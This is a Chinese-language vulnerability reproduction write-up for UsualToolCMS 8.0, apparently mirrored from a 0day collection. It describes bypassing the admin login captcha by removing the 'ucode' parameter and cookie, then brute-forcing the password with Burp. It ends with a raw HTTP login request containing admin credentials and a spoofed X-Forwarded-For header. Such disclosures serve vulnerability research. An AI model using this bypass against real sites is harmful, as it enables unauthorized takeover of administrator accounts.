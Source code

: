 # UsualToolcms 8.0 绕过后台验证码爆破

> 原文：[http://book.iwonder.run/0day/UsualToolcms/2.html](http://book.iwonder.run/0day/UsualToolcms/2.html)

## 一、漏洞简介

可通过删除验证码参数，进行暴力破解

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点:[http://0-sec.org/cmsadmin/](http://0-sec.org/cmsadmin/)

后台登陆时默认需要输入验证码，但是当我把验证码的参数 ucode 删除时，登陆依然成功

### 1.默认情况下登陆数据包

![image](img/7cc78ac11dd1c2c3c014c5eefc2d6ab2.png)

![image](img/ce2909b96a71ee3eeb717d6adb886934.png)

删除 ucode 参数和 cookie 后登陆，直接登陆成功

![image](img/57670abe273724fa08abe8061c2bbec9.png)

通过 burp 爆破后台密码

![image](img/5f714cb883b3a6231b6fb46749ef4438.png)

![image](img/1fe9163462edb37c89ec0086b8fe661d.png)

```
POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

uuser=admin&upass=admin 
```


